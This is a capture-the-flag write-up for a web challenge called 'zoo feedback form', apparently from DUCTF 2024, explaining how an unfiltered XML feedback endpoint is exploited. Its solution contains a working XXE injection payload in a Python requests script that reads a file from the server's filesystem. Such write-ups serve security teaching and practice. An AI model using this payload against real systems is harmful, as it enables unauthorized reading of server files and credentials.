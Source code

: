 # zoo feedback form

## Description

The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!

Author: richighimi


## Files

* [zoo-feedback-form.zip](files/zoo-feedback-form.zip)

## Solution

The webpage is a simple feedback form with only one input field. Upon clicking "Submit Feedback", a POST request is sent:

```xml
<?xml version="1.0" encoding="UTF-8"?>
            <root>
                <feedback>a</feedback>
            </root>
```

with a response of:

```
Feedback sent to the Emus: a
```

Testing around, we can determine that the form is unfiltered. For example, sending `<` yields an XML parsing error about `invalid element name`. Thus, this form is vulnerable to XXE (XML External Entity) injection. Specifically, we can use the `<!ENTITY>` directive to read the contents of files on the server (along with other possibilities, but for getting the flag, this is all we need).

```python
import requests

url = 'https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev/'

headers = {
    'Content-Type': 'application/xml'

}

payload = """
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/flag.txt"> ]>
<root>
    <feedback>&xxe;</feedback>
</root>
"""

response = requests.post(url, data=payload, headers=headers)
print(response.text)
```

This script sends a POST request with the payload containing the `<!ENTITY>` directive to read the contents of `flag.txt`. The response contains the flag!


